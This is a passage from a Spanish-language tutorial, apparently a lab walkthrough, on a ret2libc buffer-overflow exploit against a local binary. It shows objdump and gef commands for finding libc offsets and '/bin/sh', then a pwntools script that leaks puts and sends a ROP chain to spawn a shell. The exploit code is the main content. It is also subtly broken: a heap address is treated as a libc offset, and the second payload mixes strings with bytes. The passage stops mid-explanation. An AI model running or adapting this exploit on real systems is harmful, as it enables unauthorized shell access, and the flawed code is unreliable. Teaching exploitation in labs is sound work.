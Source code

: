 ## Sacando los offsets de puts, system y /bin/sh usando libc

De igual manera usaremos el comando ```objdump``` pero ahora de esta forma 

System
```
objdump -d -M intel /usr/lib/libc.so.6 | grep "system" 
```
puts
```
objdump -d -M intel /usr/lib/libc.so.6 | grep "_IO_puts" 
```
Y ambos comandos nos deben de mostrar algo como esto:

```
000000000004ba40 <__libc_system@@GLIBC_PRIVATE>:
000000000007a6f0 <_IO_puts@@GLIBC_2.2.5>:
```

/bin/sh

Para esto usare el comando grep que viene incorporado en gef el comando grep, 

```
gef➤  grep "/bin/sh"
[+] Searching '/bin/sh' in memory
[+] In '[heap]'(0x405000-0x426000), permission=rw-
  0x405ac0 - 0x405ac7  →   "/bin/sh" 
  0x405ae0 - 0x405ae7  →   "/bin/sh" 
[+] In '/usr/lib/libc.so.6'(0x7ffff7da0000-0x7ffff7df8000), permission=r--
  0x7ffff7dbb26a - 0x7ffff7dbb271  →   "/bin/sh" 
```


## Ejecutando el exploit

```python
from pwn import *

p = process('./vuln')

main = 0x0401146
puts_got = 0x0000000000404018
puts_plt = 0x0000000000401030
gadget = 0x00000000004005f3

puts_libc = 0x000000000007a6f0
system_libc = 0x000000000004ba40
bin_sh = 0x405ac0

payload = b'A'*120 + p64(gadget) + p64(puts_got) + p64(puts_plt) + p64(main)

p.sendline(payload)
output = p.recvline()
output = output[:-1]
output += b'\x00\x00'
puts_libc_addr = u64(output)
system_libc_addr = puts_libc_addr - puts_libc + system_libc
sh_libc_addr = puts_libc_addr - puts_libc + bin_sh
payload = 'A'*120 + p64(gadget) + p64(sh_libc_addr) + p64(system_libc_addr) + p64(main)
p.sendline(payload)
p.interactive()
```
Y nos debe de mostrar algo como esto:
